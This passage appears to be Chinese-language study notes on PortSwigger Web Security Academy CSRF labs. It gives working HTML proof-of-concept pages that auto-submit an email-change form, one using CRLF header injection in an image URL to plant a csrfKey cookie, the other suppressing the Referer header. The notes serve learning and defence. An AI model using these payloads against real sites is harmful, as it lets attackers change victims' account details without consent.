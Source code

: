 

### CSRF where token is tied to non-session cookie

该题目的关键是csrf token并没有与用户的session进行绑定，而是与cookie csrfKey进行绑定的，如果将这两个值替换为有效值之后，发给受害者用户，即可触发csrf漏洞。

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a22004a0304b1e28015e97c004d0048.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="3340000544@qq.com" />
      <input type="hidden" name="csrf" value="So0vmeiTnlQ9KGTBhTxuuSSYH8rnDjpt" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0a22004a0304b1e28015e97c004d0048.web-security-academy.net?search=1fdas%0d%0aSet-Cookie:%20csrfKey=OaIzdxyyR7k6EqYDwRg8v0pOfcufMoAP%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

这里设置`<img>`标签主要是发起get请求以设置服务端给客户端的指定的cookie的值。`%0d%0a`表示换行，`%3b%20`表示;号。





## Referer



### 步骤：

1、移除referer头，看看效果；

2、检查引用标头的哪一部分是应用程序验证



### Lab: CSRF where Referer validation depends on header being present

这里的关键是在http的请求头当中是否存在referer字段，如果不存在，则不影响，如果存在，则一定会检测是否来自当前域的请求，所以我们这里将请求头当中的referer字段取消即可。

```html
<html>
  <meta name="referrer" content="no-referrer">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a3200420425269c812458c400210003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="22222&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
